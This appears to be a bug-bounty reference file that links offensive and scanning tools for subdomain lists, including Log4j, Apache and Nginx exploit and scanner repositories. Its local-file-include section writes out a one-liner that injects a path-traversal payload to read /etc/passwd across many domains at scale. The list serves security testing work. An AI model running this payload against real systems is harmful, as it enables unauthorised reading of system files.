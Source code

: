  This file contains the list of tools or scripts which can be directly run on the subdomains list to find the vulnerabilities

> Automatic Vulnerability Detection and Exploit
```
Automation
https://github.com/zan8in/afrog
https://github.com/adrianscheff/pegaxss
https://github.com/zhzyker/vulmap
https://github.com/Dheerajmadhukar/karma_v2
https://github.com/yogeshojha/rengine
https://github.com/Chudry/Xerror
https://github.com/R0X4R/Garud
https://github.com/chaitin/xray
```
> Find Favicon hash for alltarget from a file list
```
https://github.com/devanshbatham/FavFreak
```

> 1. Apache Vulnerability Scanner
```
https://github.com/imhunterand/ApachSAL
https://github.com/p0dalirius/ApacheTomcatScanner
```
> PoC for Nginx 0.6.18 - 1.20.0 Memory Overwrite Vulnerability CVE-2021-23017
```
https://github.com/glyptho/newassets/blob/main/automation/poc.py
```

> 2. Local File Include Check:
```
> https://github.com/hansmach1ne/lfimap
LFI at scale 🔥🔥🔥🔥
cat rootsDomains.txt | waybackurls | qsreplace ".%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./etc/passwd" | httpx -silent -nc -mr "root:x:" -t 250 
```

>Log4j Vulnerability Test
```
https://github.com/cyberqueen-meg/log4j-bypass
https://github.com/PushpenderIndia/Log4jScanner
https://github.com/thecyberneh/Log4j-RCE-Exploiter
https://github.com/palantir/log4j-sniffer
https://github.com/trickest/log4j
```

> Sprint4shell scanner
```
https://github.com/fullhunt/spring4shell-scan
```


> Image EXIF-Metadata find
```
https://github.com/aydinnyunus/exifLooter
```
> Regularly collection of domain list from bug bounty sites
```
https://github.com/arkadiyt/bounty-targets-data/blob/master/data/domains.txt
https://github.com/KingOfBugbounty/KingOfBugBountyTips/blob/master/DoD%20Domains.txt
```
